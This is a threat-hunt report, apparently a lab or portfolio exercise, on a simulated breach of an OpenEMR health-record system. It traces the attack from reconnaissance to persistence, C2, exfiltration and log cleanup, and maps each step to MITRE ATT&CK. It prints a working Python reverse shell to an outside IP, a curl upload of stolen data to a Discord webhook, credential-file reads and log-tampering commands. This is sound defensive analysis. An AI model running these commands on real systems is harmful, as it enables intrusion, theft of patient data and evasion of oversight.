# Threat Hunt: Rocky Clinic OpenEMR Breach



## Overview

A full-chain compromise of a cloud-hosted electronic health record system running OpenEMR in Docker on Azure. **No ransomware, no alerts, no outage.** The attacker operated entirely under a legitimate admin account, blended persistence into trusted OS tooling, and exfiltrated patient data through a Discord webhook after direct transfer was blocked by network controls.

**Environment:** Microsoft Sentinel / Microsoft Defender for Endpoint (MDE)  
**Investigation Window:** 4–14 February 2026 UTC  
**Platform:** Azure — Rocky Linux VM → Docker (docker-compose) → OpenEMR + MariaDB  
**Analyst:** Abel

---

## Environment

| Component | Details |
|---|---|
| SIEM | Microsoft Sentinel |
| EDR | Microsoft Defender for Endpoint (MDE) |
| Log Sources | DeviceFileEvents, DeviceProcessEvents, DeviceLogonEvents, DeviceNetworkEvents, DeviceInfo, AlertEvidence |
| Target Host | `rocky83.zi5bvzlx0idetcyt0okhu05hda.cx.internal.cloudapp.net` |
| Application Stack | Azure VM → Docker (docker-compose) → OpenEMR + MariaDB |
| Operator Account | `it.admin` |

---

## Attack Chain

### Initial Access — Unattributed; SSH Sessions Begin 2026-02-08

The initial access vector was not attributed during this investigation. Earliest confirmed operator activity appears on **2/6** — predating the suspicious SSH sessions — suggesting the foothold was either established before the investigation window or through the OpenEMR web interface.

SSH sessions were conducted as `it.admin` from a VPN-rotating pool of IPs. The first confirmed suspicious external logon came from `37.19.221.234` on **2026-02-08 at 16:25 UTC**, with subsequent sessions rotating across `37.19.x`, `149.40.x`, `185.236.x`, `149.22.x`, and `146.70.202.x` ranges throughout the window. Each IP logged in once or twice and never returned — consistent with commercial VPN rotation to defeat IP-based detection.

The operator's first action after logon: `w` — checking who else is logged in before doing anything loud. A standard OPSEC step.




---

### Reconnaissance — OS Fingerprint + Docker Stack Interrogation

The operator moved efficiently through host enumeration. OS fingerprint was done in a single command:

```bash
cat /etc/os-release /etc/redhat-release /etc/rocky-release /etc/system-release
```

Four files, one shot. The EDR recorded it as one process event. The host came back as **RockyLinux** — confirmed in `DeviceInfo.OSDistribution`.

Docker stack interrogation followed:

```bash
docker inspect openemr-mariadb
```

Run twice — 2/6 and again 2/9 — pulling the container's full configuration, network bindings, and environment variables. Followed by a recursive enumeration of all Docker volume storage:

```bash
find /var/lib/docker/volumes -maxdepth 3 -type f
```

An `ls` immediately after physically identified the MariaDB database volume on disk: `/var/lib/docker/volumes/r0ckyyy335_mariadb_data/_data`.

**MITRE:** T1082 — System Information Discovery, T1083 — File and Directory Discovery






---

### Privilege Escalation — sudo -i

From the `it.admin` shell, a single command dropped the operator into a fully interactive root shell:

```bash
sudo -i
```

Not a scoped `sudo <command>` — a full root shell. All subsequent activity ran as root. The SHA256 of the last binary the operator touched before logging off the first session: `a7b78ff3f501951cd8455697ef1b6dc1832ae42a9433926a8504d6ad719d729d`.

**MITRE:** T1548.003 — Sudo and Sudo Caching



---

### Credential Access — Automation Config File

As root, the operator read a privileged configuration file outside the application directory:

```bash
cat /etc/openemr/audit_export.env   # 2026-02-07 01:11:54 UTC
grep -q ^DB_PASS= /etc/openemr/audit_export.env   # 01:13:11 UTC
```

The `grep` confirms the operator verified the DB password field was present. `audit_export.env` contains database credentials valid across reboots — sufficient for persistent, authenticated access to MariaDB without re-escalating.

**MITRE:** T1552.001 — Credentials in Files




---

### Persistence — Two Independent Mechanisms

**1. Rogue local account — `system`**

Rather than `useradd` or `adduser` — which generate dedicated audit events — the operator wrote directly to `/etc/passwd` and `/etc/shadow` using `vipw`, the low-level identity editor.

On Rocky Linux, `system` is not a real local account — it is a Windows concept (`NT AUTHORITY\SYSTEM`). When `DeviceLogonEvents` groups all successful logons by account name, `system` appears with **1,092 logon events** on a Linux host. That is the anomaly. SHA256 of the `vipw` binary: `dbb794466563134e5119efa47fd41c4ffb31a8104b59bba11eb630f55238abd0`.

**MITRE:** T1136.001 — Create Account: Local Account




**2. Systemd service — `integration-monitor.service`**

A service unit file was written under `/etc/systemd/system/` using `cat` — not `vim` or `nano` — to avoid editor swap-file artifacts and minimize process telemetry. The service delivers the C2 payload via systemd, firing on every boot without any interactive logon.

```bash
cat > /etc/systemd/system/integration-monitor.service
```

The service file was modified twice across its lifetime, producing two distinct SHA256 values. The version active when C2 launched: `f71ea834a9be9fb0e90c7b496e5312072fffedf1d1c0377957e05714bdac37b8`.

**MITRE:** T1543.002 — Create or Modify System Process: Systemd Service





---

### Command & Control — Python Reverse Shell via Systemd

On **2026-02-11 at 04:16 UTC**, `systemd` fired `integration-monitor.service`:

```bash
/usr/bin/python3 -c 'import socket,subprocess,os;s=socket.socket();s.connect(("20.62.27.80",443));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'
```

The shell connects outbound to `20.62.27.80:443`, duplicates the socket to stdin/stdout/stderr, then spawns `/bin/sh -i`. Two minutes later, `/bin/sh -i` (PID **8000**) became the interactive operator session.

**MITRE:** T1059.006 — Command and Scripting Interpreter: Python, T1543.002 — Systemd Service




---

### Collection & Staging

**Trusted script hijack:**
`/opt/backup/scripts/backup_manifest.sh` — a script that runs automatically as `svc.backup` without interactive logons — was modified twice via `vim` on **2026-02-10 at 18:10–18:11 UTC**. The operator injected staging logic into an already-trusted, already-scheduled workflow rather than creating new automation that would stand out.

**Staging path:**
`/var/lib/integrations` — a directory that mimics legitimate operational infrastructure and draws no immediate attention.

**Staged archive:**
```
integration_state_2026-02-10_22-00-01.tar.gz
```

**MITRE:** T1053 — Scheduled Task/Job, T1074.001 — Local Data Staging, T1560.001 — Archive Collected Data





---

### Exfiltration — Pivot to Discord After SCP Blocked

**First attempt — blocked:**

```bash
scp integration_state_2026-02-10_22-00-01.tar.gz streetrack@20.62.27.80:/home/streetrack/
```

Direct SCP to the C2 host failed — network controls blocked the connection. A failed network event is visible in `DeviceNetworkEvents`.

**Successful pivot:**

```bash
curl -F file=@integration_state_2026-02-10_22-00-01.tar.gz https://discord.com/api/webhooks/1471960320636620832/...
```

By posting the archive to a Discord webhook, the operator blended the transfer into normal HTTPS traffic. The webhook resolved to **`162.159.135.232:443`** — Discord's Cloudflare CDN — indistinguishable from any other Discord API call.

**MITRE:** T1567 — Exfiltration Over Web Service (SaaS abuse), T1048 — Exfiltration Over Alternative Protocol






---

### Defense Evasion — Surgical Log Cleanup + Timestamp Forgery

Between **16:13–16:16 UTC on 2026-02-11**, the operator ran **12 selective `sed -i` delete operations** across `/var/log/secure` and `/var/log/messages` — targeting specific evidence categories rather than wiping the files entirely. Selective deletion is harder to detect than a missing log file.

```bash
touch -t 202602061200.00 /var/log/messages
```

`/var/log/messages` was then backdated to **2026-02-06 12:00:00** — predating the operator's own activity by two days to blur causality for anyone reviewing file modification times.

The EDR caught it anyway: **`Indicator Removal (T1070)` / `Timestomp (T1070.006)`**.

**MITRE:** T1070.003 — Clear Linux or Mac System Logs, T1070.006 — Timestomp





---

## IOC Summary

| Type | Value |
|---|---|
| Target host | `rocky83.zi5bvzlx0idetcyt0okhu05hda.cx.internal.cloudapp.net` |
| Operator account | `it.admin` |
| Initial suspicious IP | `37.19.221.234` (VPN — first session, 2026-02-08) |
| VPN rotation cluster | `37.19.x`, `149.40.x`, `185.236.x`, `149.22.x`, `159.26.x`, `146.70.202.x` |
| C2 IP | `20.62.27.80:443` |
| Exfil endpoint | `162.159.135.232:443` (Discord CDN) |
| Staged archive | `integration_state_2026-02-10_22-00-01.tar.gz` |
| Staging path | `/var/lib/integrations` |
| Credential artifact | `/etc/openemr/audit_export.env` |
| Rogue account | `system` (created via `vipw`) |
| Persistence service | `integration-monitor.service` |
| Hijacked script | `/opt/backup/scripts/backup_manifest.sh` |

---

## Full Hunt Notes

For the complete question-by-question KQL walkthrough and per-finding analysis, see [hunt-notes.md](hunt-notes.md).

**Key skills demonstrated:** KQL threat hunting across 6 MDE/Sentinel tables, Linux host forensics, Docker container attack surface analysis, persistence mechanism identification (account + systemd), C2 and exfiltration path reconstruction, MITRE ATT&CK mapping.
